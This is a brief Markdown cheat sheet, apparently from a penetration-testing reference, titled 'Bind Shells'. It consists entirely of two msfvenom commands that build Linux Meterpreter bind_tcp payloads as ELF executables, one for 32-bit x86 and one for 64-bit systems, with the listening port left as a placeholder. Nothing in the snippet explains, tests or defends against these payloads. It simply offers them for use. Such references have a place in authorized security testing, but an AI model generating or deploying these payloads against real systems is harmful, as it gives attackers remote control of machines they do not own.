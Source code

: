 # Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/meterpreter/bind_tcp lport=<PORT> -f elf -o met-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/meterpreter/bind_tcp lport=<PORT> -f elf -o met-x64`